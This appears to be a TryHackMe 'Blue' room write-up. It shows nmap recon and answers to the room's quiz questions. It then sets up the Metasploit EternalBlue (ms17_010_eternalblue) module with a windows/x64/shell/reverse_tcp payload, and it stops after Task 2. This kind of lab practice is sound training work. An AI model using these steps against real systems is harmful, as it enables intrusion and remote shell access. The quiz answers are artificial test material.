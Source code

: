 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-1.png">
<strong> Room Link: </strong> <a href="https://tryhackme.com/r/room/blue"> https://tryhackme.com/r/room/blue</a>



##### Room Contents:

1. Task 1: Recon
2. Task 2: Gain Access
3. Task 3: Escalate
4. Task 4: Cracking
5. Task 5: Find Flags!






Task 1: Recon  

Q: Scan the machine.   
A: No answer needed. 

Q: How many ports are open with a port number under 1000?
A: 3

Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
A: ms17-010


```
nmap -vv -p- -T4 10.10.14.28
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-2.png">


```
nmap -sV -sC --script vuln 10.10.14.28
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-4.png">



Task 2: Gain Access

Exploit the machine and gain a foothold.

 
Start Metasploit

A: No answer needed

 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-5.png">
 
 
Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

A: exploit/windows/smb/ms17_010_eternalblue
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-6.png">


Q: Show options and set the one required value. What is the name of this value? (All caps for submission)

A: RHOSTS
 
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-7.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-8.png"> 
 
Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!

A: No answer needed

 
Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 



<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/thm-blue-badge">





